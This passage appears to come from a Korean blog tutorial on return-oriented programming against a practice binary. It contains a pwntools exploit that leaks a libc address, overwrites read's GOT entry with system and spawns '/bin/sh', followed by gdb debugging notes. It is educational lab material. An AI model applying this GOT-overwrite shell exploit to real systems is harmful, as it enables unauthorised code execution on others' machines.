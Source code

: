 ```python
read_got = e.got['read']
puts_plt = e.plt['puts']
# ROPgadget --binary ../exe/rop --re "pop rdi"
pop_rdi = 0x00000000004007f3
pop_rsi_r15 = 0x00000000004007f1

payload = b"A"*buf2canary + p64(cnry) + b"B"*0x8

# puts(read_got) -> read 함수 주소 구하기
payload += p64(pop_rdi) + p64(read_got)
payload += p64(puts_plt)
 
# read(0, read_got, 0x10) -> got overwire
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(read_plt)

# read("/bin/sh") = system("/bin/sh") 호출
payload += p64(pop_rdi)
payload += p64(read_got+0x8)
payload += p64(read_plt)

p.sendafter("Buf: ", payload)
read = u64(p.recvn(6)+b"\x00\x00") 
# \x00\x00을 더해주는 이유는 6바이트 크기의 함수 주소를 8바이트로 맞춰주는 것 같다.

# 다음 방법으로 system 주소를 구할 수 있다. (lib에서 함수끼리의 길이는 항상 같기 때문이다.)
lb = read - libc.symbols["read"]
system = lb + libc.symbols["system"]

slog("read", read)
slog("libc_base", lb)
slog("system", system)

p.send(p64(system)+b"/bin/sh\x00") # 뒤에 null값을 추가하여 system 함수에 인자를 넣을 때 딱 "/bin/sh" 문자열만 넣을 수 있다.
p.interactive()
```

<br>

### 02.6 디버깅

디버깅을 통해 확실히 gop 개념에 대해 이해하자.

main 함수의 ret 부분이다. 우리가 넣은 pop rdi 가젯으로 이동하는 것을 확인할 수 있다. 또한 스택에는 GOT 테이블에서의 read 함수의 주소가 있는 것을 확인할 수 있다. 이후 puts 함수가 실행되는 것 역시 확인할 수 있다.
![image](https://github.com/bshyuunn/bshyuunn.github.io/assets/87067974/f4d1d833-f56a-4497-9883-c61985eae496)


puts 함수 실행이 끝나면 system 함수의 주소가 구해진다. gdb에서 system 함수를 잘 구한 것을 확인할 수 있다.
![image](https://github.com/bshyuunn/bshyuunn.github.io/assets/87067974/963040f8-7eb2-4511-b227-b086ee5ab15c)
![image](https://github.com/bshyuunn/bshyuunn.github.io/assets/87067974/963d3b1d-61e5-48fc-9e31-660660e3421a)
